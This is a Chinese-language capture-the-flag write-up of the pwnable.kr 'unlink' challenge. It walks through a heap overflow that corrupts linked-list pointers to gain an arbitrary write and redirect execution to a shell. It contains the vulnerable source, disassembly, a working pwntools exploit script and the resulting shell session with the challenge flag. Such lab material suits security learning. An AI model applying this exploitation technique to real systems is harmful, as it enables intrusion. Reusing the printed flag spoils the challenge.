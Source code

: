 ```yaml
---
title: pwnable.kr-unlink
date: 2018-02-21 20:26:00
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

# 前言
这是一道简化了的linux下`malloc`堆溢出漏洞利用。需要理解linux下关于`glibc的堆管理`的相关内容，[参考](http://blog.csdn.net/maokelong95/article/details/51989081#allocated-chunk)
# 分析
分析源码`unlink.c`
```c
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}

```
程序很简单完全就是教学版的`unlink堆溢出利用`。程序在`gets(A->buf)`处存在堆溢出漏洞，之后调用`unlink(B)`函数把`B`节点从链表中取下来。这个函数中，如果控制了`P`节点的`fb`和`bk`指针，那么就可以造成任意地址写入，写入过程是`将bk写入fb+4表示的地址处，将fb写入bk表示的地址处`。要想写入想要的地址，必须要保证两步写入操作不会触发写异常保护，这里需要控制`esp`的值来使`main`函数在返回时执行`ret`指令将`shell`地址赋给`eip`。
下面分析`main`函数反汇编代码，来构造`payload`
```nasm
0804852f <main>:
 804852f:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 8048533:	83 e4 f0             	and    $0xfffffff0,%esp
 8048536:	ff 71 fc             	pushl  -0x4(%ecx)
 8048539:	55                   	push   %ebp
 804853a:	89 e5                	mov    %esp,%ebp
 804853c:	51                   	push   %ecx
 804853d:	83 ec 14             	sub    $0x14,%esp
 8048540:	83 ec 0c             	sub    $0xc,%esp
 8048543:	68 00 04 00 00       	push   $0x400
 8048548:	e8 53 fe ff ff       	call   80483a0 <malloc@plt>
 804854d:	83 c4 10             	add    $0x10,%esp
 8048550:	83 ec 0c             	sub    $0xc,%esp
 8048553:	6a 10                	push   $0x10
 8048555:	e8 46 fe ff ff       	call   80483a0 <malloc@plt>
 804855a:	83 c4 10             	add    $0x10,%esp
 804855d:	89 45 ec             	mov    %eax,-0x14(%ebp)
 8048560:	83 ec 0c             	sub    $0xc,%esp
 8048563:	6a 10                	push   $0x10
 8048565:	e8 36 fe ff ff       	call   80483a0 <malloc@plt>
 804856a:	83 c4 10             	add    $0x10,%esp
 804856d:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8048570:	83 ec 0c             	sub    $0xc,%esp
 8048573:	6a 10                	push   $0x10
 8048575:	e8 26 fe ff ff       	call   80483a0 <malloc@plt>
 804857a:	83 c4 10             	add    $0x10,%esp
 804857d:	89 45 f0             	mov    %eax,-0x10(%ebp)
 8048580:	8b 45 ec             	mov    -0x14(%ebp),%eax
 8048583:	8b 55 f4             	mov    -0xc(%ebp),%edx
 8048586:	89 10                	mov    %edx,(%eax)
 8048588:	8b 55 ec             	mov    -0x14(%ebp),%edx
 804858b:	8b 45 f4             	mov    -0xc(%ebp),%eax
 804858e:	89 50 04             	mov    %edx,0x4(%eax)
 8048591:	8b 45 f4             	mov    -0xc(%ebp),%eax
 8048594:	8b 55 f0             	mov    -0x10(%ebp),%edx
 8048597:	89 10                	mov    %edx,(%eax)
 8048599:	8b 45 f0             	mov    -0x10(%ebp),%eax
 804859c:	8b 55 f4             	mov    -0xc(%ebp),%edx
 804859f:	89 50 04             	mov    %edx,0x4(%eax)
 80485a2:	83 ec 08             	sub    $0x8,%esp
 80485a5:	8d 45 ec             	lea    -0x14(%ebp),%eax
 80485a8:	50                   	push   %eax
 80485a9:	68 98 86 04 08       	push   $0x8048698
 80485ae:	e8 cd fd ff ff       	call   8048380 <printf@plt>
 80485b3:	83 c4 10             	add    $0x10,%esp
 80485b6:	8b 45 ec             	mov    -0x14(%ebp),%eax
 80485b9:	83 ec 08             	sub    $0x8,%esp
 80485bc:	50                   	push   %eax
 80485bd:	68 b8 86 04 08       	push   $0x80486b8
 80485c2:	e8 b9 fd ff ff       	call   8048380 <printf@plt>
 80485c7:	83 c4 10             	add    $0x10,%esp
 80485ca:	83 ec 0c             	sub    $0xc,%esp
 80485cd:	68 d8 86 04 08       	push   $0x80486d8
 80485d2:	e8 d9 fd ff ff       	call   80483b0 <puts@plt>
 80485d7:	83 c4 10             	add    $0x10,%esp
 80485da:	8b 45 ec             	mov    -0x14(%ebp),%eax
 80485dd:	83 c0 08             	add    $0x8,%eax
 80485e0:	83 ec 0c             	sub    $0xc,%esp
 80485e3:	50                   	push   %eax
 80485e4:	e8 a7 fd ff ff       	call   8048390 <gets@plt>
 80485e9:	83 c4 10             	add    $0x10,%esp
 80485ec:	83 ec 0c             	sub    $0xc,%esp
 80485ef:	ff 75 f4             	pushl  -0xc(%ebp)
 80485f2:	e8 0d ff ff ff       	call   8048504 <unlink>
 80485f7:	83 c4 10             	add    $0x10,%esp
 80485fa:	b8 00 00 00 00       	mov    $0x0,%eax
 80485ff:	8b 4d fc             	mov    -0x4(%ebp),%ecx
 8048602:	c9                   	leave  
 8048603:	8d 61 fc             	lea    -0x4(%ecx),%esp
 8048606:	c3                   	ret    
 8048607:	66 90                	xchg   %ax,%ax
 8048609:	66 90                	xchg   %ax,%ax
 804860b:	66 90                	xchg   %ax,%ax
 804860d:	66 90                	xchg   %ax,%ax
 804860f:	90                   	nop

```
可以发现`A,B,C`三个节点的栈地址分别是`ebp-0x14,ebp-0xc,ebp-0x10`，在函数结尾发现`ret`指令之前是`lea -0x4(%ecx),%esp`,说明`esp`最后会被`ecx`修改，而`ecx`又会被指令`mov -0x4(%ebp),%ecx`修改。于是要想把esp所表示地址的内容改为shell的地址，可以通过更改`ebp-4`的内容为`shell地址+4`来实现,而`ebp-4`的地址可以通过`A`地址来计算，它们的相对偏移为`ebp-4-(ebp-0x14)=16`。则堆块的内存布局如下
```
+-------------+--------------+   <= A
|   fd        |    bk        |
|shell_addr   |  aaaa        |
+-------------+--------------+   <= B
|    aaaaaaaa(chunk size)    |
|heap_addr+8+4|stack_addr+16 |
|            buf             |
+-------------+--------------+
```
要注意的是题目平台是64位系统，所以存储`chunk size`信息需要8字节，exp如下
```python
from pwn import *

context(arch='amd64',os='linux',log_level='info')
s = ssh(host='pwnable.kr',user='unlink',password='guest',port=2222)
shell_addr = 0x080484eb
ss = s.run('./unlink')
ss.recvuntil('here is stack address leak: ')
stack_addr = int(ss.recv(10),16)
ss.recvuntil('here is heap address leak: ')
heap_addr = int(ss.recv(10),16)
ss.sendline(p32(shell_addr)+'a'*12+p32(heap_addr+8+4)+p32(stack_addr+16))
ss.interactive()

```
```bash
root@kali:~/桌面# python 1.py
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[+] Opening new channel: './unlink': Done
[*] Switching to interactive mode
now that you have leaks, get shell!
$ $ ls
flag  intended_solution.txt  unlink  unlink.c
$ $ cat flag
conditional_write_what_where_from_unl1nk_explo1t
$ $  

```
# 总结
做这道题目搜索了很多关于`glibc堆管理`的相关内容，学到了不少，这里推荐[一篇博文](https://chybeta.github.io/2017/08/19/Software-Security-Learning/)，它记录了很多关于软件安全方向的知识链接，很适合学习。另外pwable.kr的第一部分终于做完了，学到了不少基础知识，希望能在二进制的道路上越走越远。